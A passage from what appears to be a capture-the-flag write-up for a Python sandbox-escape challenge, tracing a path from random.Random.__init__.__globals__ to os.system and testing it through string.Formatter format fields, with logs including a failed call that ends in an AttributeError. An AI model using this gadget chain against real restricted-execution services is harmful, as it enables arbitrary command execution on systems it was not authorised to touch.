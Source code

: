![random-interactive.png](resources/random-interactive.png)

*(Side note: We do not want `<slot wrapper '__init__' of 'object' objects>` but instead we are looking for a `<function XXX.YYY.__init__(self, ...)>`. The `<slot wrapper>` does not have a `__globals__` attribute.)*

So, after some manual search, we reach the `os` module which contains the `system` function:

```python
In [2]: random.Random.__init__.__globals__['_os'].system
Out[2]: <function posix.system(command)>
```

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter().format("{0.Random.__init__.__globals__[_os].system}", random))
<built-in function system>

nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> print(string.Formatter().format("{0.Random.__init__.__globals__[_os].system('ls')}", random))
Traceback (most recent call last):
  File "/home/fane/ctfs/uiuctf23/pwn/rattler-read/main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "/home/fane/ctfs/uiuctf23/pwn/rattler-read/main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 1, in <module>
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 161, in format
    return self.vformat(format_string, args, kwargs)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 165, in vformat
    result, _ = self._vformat(format_string, args, kwargs, used_args, 2)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 205, in _vformat
    obj, arg_used = self.get_field(field_name, args, kwargs)
  File "/home/fane/.pyenv/versions/3.10.5/lib/python3.10/string.py", line 276, in get_field
    obj = getattr(obj, i)
AttributeError: module 'os' has no attribute 'system('ls')'
```
